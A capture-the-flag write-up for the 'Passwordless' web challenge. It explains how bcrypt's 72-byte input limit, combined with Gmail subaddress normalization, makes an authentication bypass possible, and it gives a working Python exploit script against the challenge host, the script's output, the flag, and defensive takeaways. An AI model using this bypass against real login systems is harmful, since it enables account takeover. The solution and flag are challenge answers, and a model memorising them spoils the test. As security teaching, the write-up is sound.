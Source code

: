 Passwordless Solution
________________________________________
Challenge Overview
We are given a simple Express.js application with login/registration.
The key routes:
•	/register → creates a new user with a random password (email + randomHex(16))
•	/session → login (checks bcrypt.compareSync(password, hash))
•	/dashboard → restricted page that reveals the flag:
<span id="flag"><%- process.env.FLAG %></span>
At first glance, there’s no way to get the random password because the server never emails it.
________________________________________
Vulnerability
The issue lies in how the initial password is generated and stored:
const initialPassword = req.body.email + crypto.randomBytes(16).toString('hex')
bcrypt.hash(initialPassword, 10, ...)
But bcrypt has a 72-byte input limit: anything after 72 bytes is ignored.
That means if we make our email very long, the random suffix will be beyond byte 72 and completely discarded.
So, effectively, the stored hash only depends on the first 72 bytes of the email string we control.
________________________________________
Bypassing Normalization
The server normalizes email addresses with normalize-email before storing and logging in.
That means we can’t just use a giant raw email — it must normalize down to something valid and ≤64 characters.
Luckily, Gmail addresses support subaddressing (+tag).
Example:
•	Raw input: a+AAAAAA...@gmail.com (hundreds of As)
•	Normalized form: a@gmail.com (tag stripped, under 64 chars)
Thus:
1.	On registration, the app stores a user a@gmail.com with a bcrypt hash of the first 72 bytes of our raw email.
2.	On login, we just supply a@gmail.com and use that 72-byte prefix as the password → bcrypt matches → we are authenticated.
________________________________________
Exploit Script
Here’s the Python one-shot exploit we used:
import requests, re

BASE = "http://passwordless.chal.imaginaryctf.org"
s = requests.Session()

# 1) Craft emails
base_local = "a"
tag = "A" * 300
domain = "gmail.com"
raw_email = f"{base_local}+{tag}@{domain}"
norm_email = f"{base_local}@{domain}"

# 2) First 72 bytes = effective bcrypt password
pwd72 = raw_email[:72]

# 3) Register
s.post(f"{BASE}/user", data={"email": raw_email})

# 4) Login
s.post(f"{BASE}/session", data={"email": norm_email, "password": pwd72})

# 5) Fetch dashboard for flag
r = s.get(f"{BASE}/dashboard")
m = re.search(r'<span id="flag">(.*?)</span>', r.text)
print("FLAG:", m.group(1))
________________________________________
Result
Running the script:
[*] Register status: 200
[*] Login status: 200
[*] Dashboard status: 200
[+] FLAG: ictf{8ee2ebc4085927c0dc85f07303354a05}
________________________________________
Takeaways
•	Always be mindful of cryptographic library limits (bcrypt’s 72-byte cutoff).
•	Never base secrets on untrusted input like emails.
•	Input normalization (normalize-email) can introduce unexpected collisions/shortcuts.
Final Flag:
ictf{8ee2ebc4085927c0dc85f07303354a05}
